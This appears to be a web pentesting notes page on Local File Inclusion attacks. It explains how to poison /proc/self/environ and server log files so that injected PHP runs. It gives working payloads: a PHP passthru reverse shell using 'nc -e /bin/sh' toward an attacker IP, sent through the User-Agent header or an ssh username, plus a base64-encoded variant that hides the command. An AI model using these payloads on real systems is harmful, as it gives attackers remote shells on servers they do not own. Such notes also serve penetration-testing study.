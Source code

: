 ```yaml
---
title: LFI attack - Local File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# LFI attack - Local File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](web-exploitation.md).


## Interesting files

### /proc/self/environ 

This files contain Environment variables. One of those variables might be HTTP_USER_AGENT, which is the user agent used by the client to access the server. So by using a  proxy interceptor  we could modify that header to be, let's say:

```
<?phpinfo()>
```

![Local file inclusion](img/lfi-1.png)


When it comes to get a shell here, we need to use PHP function passthru, which is similar to the exec command:

passthru — Execute an external program and display raw output

In this case, we would be adding in the user agent header the reverse shell:

```
<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?> 
```

### /var/log/auth.log  or /var/log/apache2/access.log

If  we have the ability to read a log file, then we can see if we can write in them in a malicious way.

For instance, with /var/log/auth.log, we can try an ssh connection and see how these attemps are recorded on the file. Then, instead of using a real username, I can set some php code:


```
ssh "<?passthru('nc -e /bin/sh <attacker IP> <attacker port>');?>"@<TARGETIP> 
```

But there might be problems with blank spaces, slashes and so on, so one thing you can do is base64 encoded your netcat command, and tell the function to decode it before executing it  

```
# base64 encode your netcat command: nc -e /bin/sh <attacker IP> <attacker port>
ssh "<?passthru(base64_decode'<base64 encoded text>');?>"@<TARGETIP> 
```

Now just get a netcat listener in your kali attacker machine.